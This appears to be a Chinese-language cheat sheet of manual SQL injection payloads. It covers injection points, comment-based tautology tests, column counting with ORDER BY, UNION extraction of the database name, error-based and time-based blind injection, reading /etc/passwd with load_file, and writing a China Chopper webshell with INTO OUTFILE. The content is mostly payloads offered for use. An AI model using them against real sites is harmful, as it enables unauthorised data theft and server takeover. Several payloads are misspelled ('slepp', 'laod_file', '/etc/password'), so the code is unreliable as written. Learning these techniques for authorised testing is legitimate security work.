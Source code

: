 ## 手工注入

有的时候自动化会被禁止使用，比如一些删除和插入，会导致数据库被破坏。

## 常用的 playload

以下为常见的技巧，但是每次注入的技巧都不太一样，基本的技巧具体查看示例[sqli-libs](./sqli-libs.md)

### 常见的注入点

- GET/POST/PUT/DELETE参数
- [X-Forwarded-For请求协议头](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For)
- 文件名

### 测试注入点

起手先查是否有 sql 注入漏洞，以下是基于注释的 playload。

```sql
or 1=1--+
'or 1=1--+
--+ 可以用#替换，url 提交过程中 Url 编码后的#为%23
--+ SELECT * FROM users WHERE id=''or 1=1--+' LIMIT 0,1
```

### 联合注入

判断字段数目,`?id=1' order by 1 --+ `此时页面正常，
继续换更大的数字测试`?id=1' order by 10 --+` 此时页面返回错误，
更换小的数字测试`?id=1' order by 5 --+ `此时页面依然报错，
继续缩小数值测试`?id=1' order by 3 --+ `此时页面返回正常，
更换大的数字测试`?id=1' order by 4 --+` 此时页面返回错误，3 正常，4 错误，说明字段数目就是 3

```sql
?id=1' order by 4--+
```

拿到数据库名

```sql
?id=0' union select 1,2,3,database()--+
```

### 报错爆出信息

通过 id=-1 一个负数不存在的 id 值来触发报错

```sql
id=-1' UNION SELECT 1,2,3
```

通过 or 1=1 语句来触发报错

```sql
id=1' or 1=1 UNION SELECT 1,2,3
```

### 基于时间的盲注

```sql
1' and slepp(5) --'
--+ select first_name, last_name from dvwa.users where user_id='1' and sleep(5) --'
```

### 读取文件

```sql
=1' and 1=2 union select laod_file('/etc/password') #
```

### 文件写入

文件写入配合菜刀提权。

```sql
=1 and 1=2 union select '菜刀木马内容' into outfile '文件目录+文件名'
```
